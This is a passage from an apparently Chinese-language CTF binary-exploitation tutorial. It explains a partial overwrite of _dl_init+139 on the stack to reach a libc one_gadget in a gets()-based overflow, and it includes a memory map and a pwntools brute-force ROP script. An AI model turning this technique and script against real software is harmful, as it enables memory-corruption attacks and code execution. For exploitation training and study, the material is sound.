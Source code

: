 ```s
```

其中 __libc_start_main+240 位于 libc 中，_dl_init+139 位于 ld 中

```s
    0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 ---p  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 r--p  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p  mapped
    0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp  /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fd7000 0x00007ffff7fda000 rw-p  mapped
    0x00007ffff7ff7000 0x00007ffff7ffa000 r--p  [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp  [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 r--p  /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p  /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 rw-p  mapped
    0x00007ffffffde000 0x00007ffffffff000 rw-p  [stack]
    0xffffffffff600000 0xffffffffff601000 r-xp  [vsyscall]
```

libc 的基地址 0x7ffff7a0d000,一般要覆盖字节的话，至少要覆盖 1 个半字节才能够获取跳到 onegadget。然而，程序中读取的时候是 gets读取的，也就意味着字符串的末尾肯定会存在\x00,所以至少会覆盖三个字节，而__libc_start_main+240 的地址 0x7ffff7a2d830，如果覆盖 3 个字节，那么就是 0x7ffff700xxxx，已经小于了 libc 的基地址了，就不能指向libc中gadget的地址了。
__libc_start_main+240 的地址 0x7ffff7a2d830，如果覆盖 3 个字节，那么就是 0x7ffff700xxxx，已经小于了 libc 的基地址了
栈上_dl_init+139，即为0x7ffff700xxxx。通过 vmmap 可以发现libc位于 ld 的低地址方向，那么在随机化的时候，很有可能 libc 的第 3 个字节是为\x00 的。比如，两者之间的偏移为 `0x7ffff7dd7000-0x7ffff7a0d000=0x3ca000` ,如果ld被加载到 0x7ffff73ca000 ，则显然 libc 的起始地址就是0x7ffff7000000，那么通过覆盖 _dl_init+139的地址低12位就可以得到 0x7ffff700xxxx,其中“xxxx”为正常输入，“00”为gets添加的用作截断的。
先尝试覆盖低三字节

```python
    from pwn import *

    if args['DEBUG']:
        context.log_level = 'debug'

    pop_chain = 0x000000000040059b # pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    # offset = 0x7fffffffde08 - 0x7fffffffdd78 = 144

    for i in range(0x1000): # 改写 _dl_init+139的低两字节
        p = process('./gets')
        gdb.attach(p)
        try:
            payload = 'A'*0x18 + p64(pop_chain) # main函数结束后的ret ==> rsp+1 ==>8
            for j in range(2):
                payload += 'a'*40 + p64(pop_chain)  # rsp+(40/8 + 1(ret)) ==> 48
            payload += 'a'*40   # 40(a)*3 + 8*3(p64(pop_chain)) = 144
            payload += p16(i)   # 填充_dl_init+139低16位
            p.sendline(payload)
            print p.recv()
            p.interactive()
            p.close()
        except Exception:
            p.close()
```
